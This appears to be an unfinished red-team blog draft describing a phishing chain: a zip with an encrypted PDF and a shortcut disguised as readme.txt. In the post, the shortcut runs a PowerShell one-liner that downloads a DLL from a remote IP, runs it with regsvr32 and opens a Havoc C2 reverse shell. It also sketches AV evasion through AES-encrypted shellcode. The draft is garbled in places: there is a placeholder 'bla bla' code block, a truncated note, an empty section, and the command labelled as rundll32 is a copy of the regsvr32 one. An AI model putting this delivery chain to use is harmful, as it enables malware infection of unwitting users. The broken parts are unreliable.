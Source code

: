 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/2.JPG">
</p>



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. These methods encompass various entry vectors that serve as a foothold into the network. One particularly relevant technique is the employment of targeted spear-phishing campaigns. In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


__Note:__ Please note that 



## 2) Defender Bypass Payload

We are not going into details on how we created this stelth DLL payload in this blogpost. Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. However, to bypass static signature, the shellcode is encrypted with AES. Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AED Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 

```cpp
	bla bla
```

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/2.JPG">
</p>

## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 

Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```
cpp
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be performed with the usual suspect IEX Download String function

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/web requests.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```
cpp
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`

## 4) WrapUp 




## 5) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://medium.com/@andreabocchetti88 analyzing-javascript-malware-techniques-and-tools-for-effective-analysis-of-several-stages-37bb3be14cc6
